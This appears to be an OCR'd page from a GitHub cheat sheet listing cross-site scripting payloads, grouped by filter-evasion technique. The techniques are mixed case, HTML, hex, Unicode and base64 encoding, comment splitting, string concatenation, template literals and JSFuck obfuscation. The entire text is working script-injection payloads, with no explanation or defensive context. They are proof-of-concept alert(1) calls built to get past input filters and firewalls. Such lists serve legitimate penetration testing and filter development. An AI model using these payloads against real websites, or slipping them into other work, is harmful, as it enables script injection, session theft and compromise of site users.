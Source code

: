 ### 2. Mixed Case
```html
<ScRiPt>alert(1)</sCrIpT>
<ImG sRc=x OnErRoR=alert(1)>
```

### 3. HTML Encoding
```html
&#60;script&#62;alert(1)&#60;/script&#62;
&lt;img src=x onerror=alert(1)&gt;
```

### 4. Hex Encoding
```html
<img src=x onerror="\x61\x6c\x65\x72\x74(1)">
```

### 5. Unicode Encoding
```html
<script>\u0061\u006c\u0065\u0072\u0074(1)</script>
```

### 6. Base64 Encoding
```html
<img src=x onerror="eval(atob('YWxlcnQoMSk='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

### 7. JavaScript Comments to Break Detection
```html
<script>alert(1)//</script>
<script>alert(1)/**/</script>
<img src=x onerror="ale/**/rt(1)">
```

### 8. String Concatenation
```html
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert('X'+'S'+'S')</script>
<script>eval('al'+'ert(1)')</script>
```

### 9. Template Literals
```html
<script>alert`1`</script>
<script>eval`alert\x281\x29`</script>
```

### 10. JSFuck / Character Obfuscation
```html
<script>[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]</script>
```
